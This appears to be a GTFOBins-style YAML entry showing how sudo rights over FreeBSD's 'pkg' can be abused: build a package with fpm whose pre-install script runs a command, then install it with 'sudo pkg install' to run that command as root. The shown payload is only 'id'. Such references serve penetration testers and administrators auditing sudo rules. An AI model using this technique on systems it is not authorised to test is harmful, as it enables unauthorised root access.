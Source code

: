 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted FreeBSD package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo pkg install -y --no-repo-update ./x-1.0.txz
---
```

